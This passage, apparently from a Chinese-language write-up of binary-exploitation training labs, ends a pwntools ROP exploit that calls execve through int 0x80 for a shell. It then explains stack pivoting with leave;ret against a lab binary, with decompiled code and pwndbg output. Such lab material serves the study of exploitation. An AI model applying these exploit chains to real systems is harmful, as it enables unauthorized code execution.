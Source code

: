 ```python  
  
#write to register  
payload += p32(pop_edx_ecx_ebx)  
payload += p32(0)  
payload += p32(0)  
payload += p32(buf)  
payload += p32(pop_eax_ret)  
payload += p32(0xb)  
payload += p32(int_80)  
  
print len(payload)  
r.recvuntil(":")  
r.sendline(payload)  
  
r.interactive()  
```  
## lab6  
  
```c  
int __cdecl main(int argc, const char **argv, const char **envp)  
{  
  char buf; // [esp+0h] [ebp-28h]  
  
  if ( count != 1337 )  
    exit(1);  
  ++count;  
  setvbuf(_bss_start, 0, 2, 0);  
  puts("Try your best :");  
  return read(0, &buf, 0x40u);  
}  
```  
  
栈不可执行。并且可以溢出的大小只有20个字节，而且限制了main函数只能执行一次，所以需要用到**栈迁移**。  
以32位为例，在使用call这个命令，进入一个函数的时候,程序会进行一系列栈操作:  
`push eip+4;push ebp;mov ebp,esp;`来保护现场，避免执行完函数后堆栈不平衡以及找不到之前的入口地址。  
leave ret相当于  
  
```shell  
leave ==> mov esp, ebp;  pop ebp;  
ret   ==> pop eip  
```  
其中`pop eip`相当于将栈顶数据给eip，由于ret返回的是栈顶数据，而栈顶地址是由esp的值决定的，esp的值，从leave可以得出是由ebp决定的。所以我们可以通过覆盖ebp的值来控制ret返回地址。两次`leave ret`即可控制esp为我们想要的地址。由于有`pop ebp`，会使`esp-4`，将ebp 覆盖为想要调整的位置-4即可。  
  
查看程序的空间分布  
  
```shell  
pwndbg> vmmap  
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA  
0x8048000 0x8049000 r-xp 1000 0 /home/LAB/lab6/migration  
0x8049000 0x804a000 r–p 1000 0 /home/LAB/lab6/migration  
0x804a000 0x804b000 rw-p 1000 1000 /home/LAB/lab6/migration  
0xf7d77000 0xf7d78000 rw-p 1000 0  
0xf7d78000 0xf7f28000 r-xp 1b0000 0 /lib/i386-linux-gnu/libc-2.23.so  
```  
  